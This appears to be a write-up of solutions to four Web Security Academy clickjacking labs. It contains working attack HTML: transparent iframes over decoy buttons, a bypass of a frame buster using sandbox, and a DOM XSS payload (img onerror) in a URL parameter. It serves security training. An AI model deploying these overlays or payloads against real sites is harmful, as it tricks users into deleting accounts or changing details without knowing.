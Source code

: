 ## Lab - 1: Basic clickjacking with CSRF token protection (A)

- This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 500px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0ad900cd0472cff4c0ee18530078002c.web-security-academy.net/my-account"
></iframe>
```

- the result will look like this:

<img src="../images/clickjacking_lab_1.png" alt="clickjacking" height="400px">

- after decreasing the opacity :

<img src="../images/clickjacking_lab_2.png" alt="clickjacking" height="400px">

---

## Lab - 2: Clickjacking with form input data prefilled from a URL parameter (A)

- This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.00001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 465px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>CLICK ME</div>
<iframe
  src="https://0a5d0048038f1bb1c08859620014003d.web-security-academy.net/my-account?email=test@test2.com"
></iframe>
```

- iframe src makes that form prefill with email address

---

## Lab - 3: Clickjacking with a frame buster script (A)

- This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.000001;
    z-index: 2;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a1c0056039e80bdc0d810ac00cd001e.web-security-academy.net/my-account?email=test@test.com"
  sandbox="allow-forms"
></iframe>
```

---

## Lab - 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS (P)

- This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

- DOM XSS found at the submit feedback page and to make the form prefilled,

```
https://0a4f00fa03e79a75c0c7661a00fe0057.web-security-academy.net/feedback?name=<img src=x onerror="print()">&email=test@test.com&subject=test&message=test
```

```html
<style>
  iframe {
    position: relative;
    width: 600px;
    height: 100vh;
    z-index: 2;
    opacity: 0.5;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a7c0078045eb571c0e0b74f0096001a.web-security-academy.net/feedback?name=<img src=x onerror='print()'>&email=test@test.com&subject=test&message=test"
  sandbox="allow-forms"
></iframe>
```

---
